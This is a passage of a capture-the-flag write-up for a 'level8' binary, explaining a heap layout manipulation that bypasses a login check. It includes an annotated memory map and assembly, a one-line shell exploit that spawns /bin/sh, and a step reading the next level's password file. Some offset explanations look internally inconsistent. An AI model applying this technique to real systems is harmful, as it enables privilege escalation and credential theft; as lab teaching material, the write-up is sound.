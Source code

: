 ## Step 10: Technical Deep Dive

### Memory Layout Explanation
```
Heap Memory Layout:
0x804a008: [auth buffer - 4 bytes]
0x804a00c: [heap metadata/padding]
0x804a010: [more heap structures]
0x804a018: [service string allocation starts here]
           "12345678901234567890123456789012\0"
0x804a028: [auth + 32] ← login checks HERE!
           Contains: "567890123456789012\0" (part of service string)
```

### Why 40 Characters Specifically?
- The exact length ensures the service allocation places string data at the precise memory offset (auth + 32)
- Shorter strings don't reach the target offset
- The heap allocator's alignment and metadata structure requires this specific length

### Assembly-Level Verification
The login check assembly:
```asm
mov    0x8049aac,%eax     ; Load auth pointer (0x804a008)
mov    0x20(%eax),%eax    ; Load value at auth + 32 (0x804a028)  
test   %eax,%eax          ; Check if non-zero
je     password_fail      ; Jump if zero → show "Password:"
call   system             ; Execute "/bin/sh" if non-zero ← SUCCESS!
```

## Step 11: The Complete Exploitation Process

### Final Working Exploit
```bash
(echo "auth "; echo "service12345678901234567890123456789012"; echo "login"; cat) | ./level8
```

### What Happens Step-by-Step:
1. **Heap Setup**: `auth ` creates minimal allocation at known address
2. **Data Placement**: Long service string strategically places data at target offset  
3. **Authentication Bypass**: Login check finds non-zero data and passes
4. **Shell Spawn**: `system("/bin/sh")` executes with level9 privileges
5. **Flag Capture**: Read `/home/user/level9/.pass` from spawned shell

## Step 12: Key Insights and Lessons

### Vulnerability Classification
- **Type**: Heap Layout Manipulation + Authentication Bypass
- **Root Cause**: Unchecked memory access in authentication logic
- **Exploitation**: Controlled heap allocation to place data at specific offsets
